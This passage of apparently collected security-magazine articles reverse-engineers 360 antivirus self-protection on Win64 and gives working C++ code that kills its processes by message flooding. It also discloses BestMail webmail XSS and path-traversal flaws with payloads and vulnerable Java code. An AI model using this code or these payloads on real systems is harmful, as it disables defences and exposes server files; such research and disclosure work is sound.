

图 1

然后尝试用重载 NTDLL + `ZwGetNextProcess` 获得句柄，发现 NTSTATUS 的返回值总是失败。后来发现 `OpenProcess` 可以在低权限下（比如以查询进程信息的权限 `PROCESS_QUERY_INFORMATION`）打开 360 的进程，但是想用 `DuplicateHandle` 或者 `NtDuplicateObject` 来获得同一进程的最高权限句柄时就失败了。然后又对线程如法炮制，依然失败。最后用无句柄杀线程的绝招，连 `KiInsertQueueApc` 钩子都抵挡不住的 10 万次 `PostThreadMessage`，还是失败。初步测试，发现来者不善，决定先用 IDA Pro 5.5 分析一下 360 的驱动，再想办法。

首先用 Win64AST（Win64 下的系统工具，有查看内核模块、管理进程等功能，下载地址：http://www.m5home.com/bbs/thread-5154-1-1.html）查看 360 加载的驱动，如图 2 所示。

可以发现，360 在 Win64 系统上只加载了两个驱动：`360FsFlt.sys` 和一个网络相关的驱动。其中，`360FsFlt.sys` 从名字上来看是文件系统过滤驱动。经分析，在它里面有进程自我保护相关的内容。

在做理智的分析之前，我们可以先进行猜测，猜测一下 360 会用什么手段来实现进程自我保护。第一种方法是 Ring3 的 Inline Hook，虽然安全稳定，但是容易绕过。上次我虽然有篇文章讲解如何反绕过 Ring3 Inline Hook，但是毕竟判断方法还有一定的瑕疵。所以我断定，360 不会这么做。第二种方法就是废掉 Win64 的 PatchGuard 机制，对内核函数进行 Inline Hook，虽然这种方法最好，但是我肯定 360 也不会这么做。因为 360 是一个商业软件，这种方法稳定性差，而且还会给竞争对手以“破坏系统安全机制”的口实。所以唯一的可能就是第三种方法，即微软官方推荐的方法：用 `ObRegisterCallbacks` 注册一个回调，监控系统中所有进程/线程句柄的动态，一旦发现对自己有害的句柄，马上把句柄关闭并返回一个错误值。在用 IDA 的分析中，果然证实了我的猜测。

首先把 `360FsFlt.sys` 拖入 IDA 进行反汇编，然后单击“Imports”，找到 `ObRegisterCallbacks`，双击 `ObRegisterCallbacks`，进入 IDA VIEW-A 界面，然后双击 `SUB_1D938`，就进入了反汇编代码的界面。您想按 F5 键查看 C 代码？真不好意思，64 位的 IDA 不带……



有把汇编代码变成 C 代码的插件，只能委屈各位看晦涩的 64 位汇编代码了。顺便说一句，我觉得 IDA 对 64 位 BIN 文件做的反汇编不怎么正确，但是没什么确实的证据，所以还是不要乱说为好。

大家可以看到，在调用 `ObRegisterCallbacks` 之前，还往 `rax` 寄存器里放了两个大家十分熟悉的对象类型：`PsProcessType` 和 `PsThreadType`，因此可以很肯定地说，360 就是用 `ObRegisterCallbacks` 注册了一个回调，用来监视进程类型句柄和线程类型句柄的动态，如图 3 所示。

```asm
__int64 __fastcall sub_1D938(PDRIVER_OBJECT DriverObject, __int64)
sub_1D938 proc near
arg_0 = qword ptr 8
mov [rsp+arg_0], rbx
push rdi
sub rsp, 20h
mov rax, cs:PsProcessType
mov rbx, rcx
lea rdx, qword_ABA20
mov cs:qword_34300, rax
mov rax, cs:PsThreadType
lea rcx, unk_342D8
mov cs:qword_34320, rax
lea rax, qword_34300
mov cs:qword_342F8, rax
call cs:ObRegisterCallbacks
```

图 3

```asm
mov al, cs:byte_59E14
loc_1D9F5:
cmp cs:byte_59E13, dl
jz short loc_1DA03
cmp al, dl
jz short loc_1DA3A
loc_1DA03:
lea rax, qword_5A2B8
lea rcx, [rbx+70h]
loc_1DA0E:
cmp [rax+0E8h], rdi
jz short loc_1DA1C
cmp [rax], rdi
jz short loc_1DA26
...
call sub_1D4A0
lea rcx, sub_1D660
xor edx, edx
mov rbx, [rsp+28h+arg_0]
add rsp, 20h
pop rdi
jmp cs:PsSetCreateProcessNotifyRoutine
```

完整的反汇编如下：

```asm
__int64 __fastcall sub_1D938(PDRIVER_OBJECT DriverObject, __int64)
sub_1D938 proc near
arg_0 = qword ptr 8
mov [rsp+arg_0], rbx
push rdi
sub rsp, 20h
mov rax, cs:PsProcessType
mov rbx, rcx
lea rdx, qword_ABA20
mov cs:qword_34300, rax
mov rax, cs:PsThreadType
lea rcx, unk_342D8
mov cs:qword_34320, rax
lea rax, qword_34300
mov cs:qword_342F8, rax
call cs:ObRegisterCallbacks
mov rdx, cs:qword_ABA20
xor edi, edi
cmp eax, edi
...
```

我还找了找 360 实现进程/线程自保护的证据，但是能力有限，只找到一部分实现“进程自保护”的过程，没有找到实现“线程自保护”的过程。如果读者有兴趣，可以自己找找。

```asm
MaybeProtectProcess
int __cdecl sub_18294(HANDLE Handle, char)
sub_18294 proc near
var_58 = qword ptr -58h
var_50 = byte ptr -50h
...
mov rax, cs:qword_59F10
cmp rax, rbx
jz short loc_182C8
mov rcx, rdx
call rax ; qword_59F10
...
call cs:ObOpenObjectByPointer
cmp eax, ebx
jz short loc_1834F
```

```asm
mov rcx, [rsp+78h+Handle]
lea rax, [rsp+78h+arg_8]
lea r8, [rsp+78h+var_38]
mov r9d, 30h
xor edx, edx
mov [rsp+78h+var_58], rax
call ZwQueryInformationProcess
mov rcx, [rsp+78h+var_10]
cmp eax, ebx
cmovl rcx, rbx
mov [rsp+78h+var_10], rcx
mov rcx, [rsp+78h+Handle]
call cs:ZwClose
mov rax, [rsp+78h+var_10]
jmp short loc_18351
loc_1834F:
xor eax, eax
loc_18351:
add rsp, 70h
pop rbx
retn
sub_18294 endp
```

`EnumWindows + PostMessage` 的方案。代码很短，只有短短 40 行，但是对付 `360safe.exe` 和 `360tray.exe` 都可以。

```cpp
#include <stdio.h>
#include <Windows.h>
#pragma comment(lib, "user32.lib")

HWND hWnds[8192]={NULL};
DWORD dwCount=0;
UINT EnumWnd(HWND h, LPARAM Param)
{
    if(dwCount==8192)
        return 0;
    hWnds[dwCount]=h;
    dwCount++;
    return 1;
}

VOID KillGuiProcess(DWORD dwProcessId)
{
    DWORD pid=0;
    EnumWindows((WNDENUMPROC)EnumWnd, 0);
    for(UINT i=0;i<dwCount;i++)
    {
        GetWindowThreadProcessId(hWnds[i], &pid);
        if(pid==dwProcessId)
        {
            for(UINT j=0;j<0x1000;j++)
                PostMessageA(hWnds[i],0,0,0);
        }
    }
}

int main()
{
    DWORD pid=0;
    printf("Input 360 PID: ");
    scanf("%d", &pid);
    KillGuiProcess(pid); // 特别声明：只对 360 在 Win64 的自保护有效
    return 0;
}
```

我觉得此函数的逻辑是：传入进程对象指针 `PEPROCESS`（注意：我强烈觉得不是 IDA 提示的 HANDLE 类型，而是 `PEPROCESS` 类型。因为对于计算机，两者都是指针，没有任何差别），然后利用 `ObOpenObjectByPointer` 获得进程的句柄，利用 `ZwQueryInformationProcess` 获得进程 PID，接着对比是否为受保护的进程，然后返回对比结果。至于关闭由别的程序打开的被保护进程的句柄、返回拒绝访问等操作，并不在这一过程中。至于这个驱动是怎么保护线程的，我有自己的猜想，但并不确定，因为我并没有在反汇编代码中找到 `ZwQueryInformationThread`（但是找到了 `IoThreadToProcess`）。有俗语云“骗得了别人骗不了自己”，由于没有形成让自己信服的逻辑，所以不敢信口开河，误导读者。

知道了 360 如何自我保护，攻破这套防御体系就简单了，利用窗口攻击即可。因为在 360 的驱动里没有防御窗口攻击的代码。准确地说，是微软没有提供解决窗口攻击的官方解决方案。至于窗口攻击的手段，用 `EndTask` 即可（大家可以试试用“任务管理器”中的“结束任务”来结束 `360safe.exe` 的主窗口），用 `SetWindowLong` 或 `SetParent` 也可以。

大家还可以看到，我的函数名是 `KillGuiProcess`，也就是说对非 GUI 程序无效。经测试，确实对没有界面的 `ZhuDongFangYu.exe` 无效。是不是说我们就没有办法对付 `ZhuDongFangYu.exe` 了呢？答案是否定的，不过要用点强制手段。这里先留个小谜团，借评书人的常用语句来结束本文：欲知后事如何，请听下回分解。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：WebMail、优邮、漏洞

## 危机四伏的优邮
### WebMail 0day 漏洞


文/图 爱无言

最近，朋友下载了一个邮件服务程序——BestMail，准备安装在自己的服务器上供用户使用。在正式使用之前，朋友委托我对该邮件服务程序做一个安全测试，于是就有了这篇文章。

从网上查询了一下，BestMail 又名优邮，是一款邮件服务程序。从网上的介绍来看，该程序安装和使用都非常简单，同时具有向用户提供 WebMail 方式的邮件发送接收功能，看起来还是功能很全面的一款邮件服务程序。

我在进行安全测试的时候，下载使用的是优邮 3.5 标准版。由于优邮提供了 WebMail 功能，在安装优邮程序的过程中，该程序会提示管理员根据系统环境的不同来选择不同的安装模式：一个是 IIS 模式，一个是程序整合的 Apache 模式。我这里选择的是 IIS 模式。选择该模式后，优邮会将 WebMail 功能与系统的 IIS 相结合来使用。

成功安装好优邮后，我们就可以通过“http://服务器IP/mail”这个网址来访问使用优邮提供的 WebMail，如图 1 所示。



图 1

这里我们可以利用图 1 中的“注册”按钮来申请一个普通邮件用户，也可以通过“管理端”按钮来登录系统后台创建一个普通邮件用户。这里我们创建了一个普通邮件用户 `test`，密码为 `123456`。

现在使用 test 用户登录优邮的 WebMail 系统。我们知道，对于 WebMail 来说，最容易发生的一个安全漏洞就是 XSS。一旦程序对邮件中的脚本代码没有做好安全过滤，那么用户通过 WebMail 系统接收到带有恶意脚本代码的邮件时就会发生 XSS。

为了测试优邮的 WebMail 系统有没有存在 XSS 漏洞，我们这里首先单击“发邮件”功能来创建一封带有脚本代码的电子邮件，如图 2 所示。



图 2

这里我们有三个细节要注意。

- 第一，我们在“主题”这里输入了一段脚本代码：`<script>alert(1)</script>`。
- 第二，我们选择的“邮件格式”为“HTML 格式”。
- 第三，图 2 最底部的地方，勾选“使用 HTML 创建您的网页”复选框，这意味着我们可以对邮件进行代码级别的编写。

这样我们就可以在邮件内容的部分插入脚本代码了，如图 3 所示。



图 3

我们在邮件内容的部分插入了一段脚本代码：`<script>alert(2)</script>`。现在发送这封邮件，我们将邮件发送给自己。

现在，来到收件箱查看一下邮件，如图 4 所示。



图 4 中我们看到浏览器弹出了一个对话框，上面有个数字 2，这意味着我们插入到邮件内容中的脚本代码被顺利执行了！看来，优邮的 WebMail 系统确实存在严重的 XSS 漏洞！

在发现了优邮这个严重的 XSS 漏洞之后，我继续对该系统的 WebMail 进行安全测试。当我单击到该 WebMail 系统中提供的“网络硬盘”功能时，发现了更加严重的安全漏洞，如图 5 所示。



请注意看浏览器地址栏中的网址，这个网址类似：`http://服务器IP/UMail/NetFoldersList?path=/../`。这是一个非常典型的目录泄露漏洞。优邮的 WebMail 在提供“网络硬盘”功能的时候，它的“网络硬盘”其实是服务器上的一个文件夹。为了查看这个文件夹中的内容，优邮的 WebMail 利用向“NetFoldersList”这个程序传递“path”参数来查看文件夹中的内容。

这里“path”参数代表着文件夹的名字，也就是“网络硬盘”的名字。但是，优邮的 WebMail 没有很好地过滤“path”参数的内容，导致我们可以利用“../”这种特殊的组合来达到查看服务器上任意目录下文件的目的。不但如此，我们甚至可以利用这个漏洞来下载或者查看，甚至是删除服务器上的任意文件，如图 6 所示。



此刻，浏览器中显示的内容就是优邮用来存放邮件用户信息的文件 `mailusers.tab`。这个文件位于服务器上优邮的安装目录下。毫无疑问，借助优邮 WebMail 的这个安全漏洞，我们完全能够利用普通邮件用户的权限来实现远程读取服务器上的任意文件内容，危害之大难以想象。

找到了安全漏洞，我们下一步就应该分析一下优邮的这些安全漏洞是由于什么原因造成的。优邮的 WebMail 是利用 Java 语言开发的，它的源代码都打包为 jar。我们这里找到了优邮的 WebMail 所对应的 jar 文件 Umail.jar。用 WinRAR 解压该文件之后，得到的就是优邮的 WebMail 的 Java 编译文件，如图 7 所示。



这些 class 后缀名的文件就是 Java 代码编译后的文件，利用反编译软件我们可以看到 Java 的源代码。我们首先查看一下出现漏洞的 NetFoldersListBean.class 文件，其部分源代码如图 8 所示。

```java
private void initNetFolderList() {
    diskCapacity = getUser().getUserProfile().getNetDiskCapacity();
    path = ValIn.getValueString("path");
    userHome = getNetDiskPath();
    String parentPath = null;
    if (path == null || path.length() <= 0 || path.equals("/")) {
        path = "/";
        parentPath = userHome;
    } else {
        parentPath = userHome + path;
    }
}
```

这里“path”就是图 5 中浏览器中的“path”参数，请读者注意“path”参数在代码中没有做任何安全过滤，而是直接传递到了代码中，这就造成 WebMail 系统直接按照“path”参数指定的文件目录来返回给用户服务器上的文件目录列表信息。

接下来，我们再看一看能够实现查看服务器上任意文件内容的 `downloadfile.class` 文件源代码内容，如图 9 所示。

```java
public void doService(HttpServletRequest request, HttpServletResponse response)
    throws ServletException, IOException {
    if (!validLogin()) return;
    String filename = ValIn.getValueString("filename");
    String path = ValIn.getValueString("path");
    String userPath = getNetDiskPath();
    // ...
    if (filename != null && filename.lastIndexOf('.') != -1) {
        type = filename.substring(filename.lastIndexOf('.') + 1);
        filename = filename.substring(0, filename.lastIndexOf('.'));
    }
}
```

从图 9 我们可以看出，在 downloadfile.class 文件中代码对“path”和“filename”参数没有做任何安全过滤，而是将这两个参数直接用于文件访问流程，组合为一个文件路径地址，之后将这个文件路径地址传递给 FileInputStream 函数来实现对文件内容的读取，最终将这个文件的内容返回给用户浏览器。

优邮 WebMail 系统存在的这几个安全漏洞，从实质上来说可以分为两个大类。一个是针对邮件系统用户安全的漏洞——XSS，因为 XSS 漏洞主要是跨站攻击，它最终影响到的是邮件系统的使用用户。恶意攻击者利用在邮件中插入恶意脚本代码来实现窃取用户 Cookie 信息，甚至可以利用该漏洞来编写邮件蠕虫，造成对整个邮件系统用户的攻击。第二类的安全漏洞就属于邮件用户对邮件服务器的攻击，这就包含上面利用优邮 WebMail“网络硬盘”功能中的安全漏洞来下载、查看、删除服务器上的任意文件。

上面都是我发现的关于优邮 WebMail 系统的安全漏洞，这些漏洞的危害都是比较大的，希望优邮的开发者能够及时修补这些安全漏洞，开发出更好的产品。

前置知识：无

关键词：Kangle、服务器、漏洞

## 危险的 Kangle Web Server
### 服务器任意文件下载漏洞



文/图 爱无言

几个月前，我公布了一个关于 Kangle Web Server 的源代码泄漏漏洞。Kangle Web Server 的开发公司在收到我的漏洞报告后迅速修补了该安全漏洞，响应速度十分块。同时，该公司向我提供了企业版的 Kangle Web Server，邀请我为他们的产品做一下安全测试，我欣然答应。在随后的测试中，我发现了新的安全漏洞，并且第一时间向 Kangle Web Server 的开发公司做了安全汇报，漏洞得到了对方的承认。现在，Kangle Web Server 的版本已经升级到了 3.0。为了能够与大家一起学习安全技术，这里将这个新的漏洞发掘过程拿出来与大家一起分享，希望能让大家有所收获。

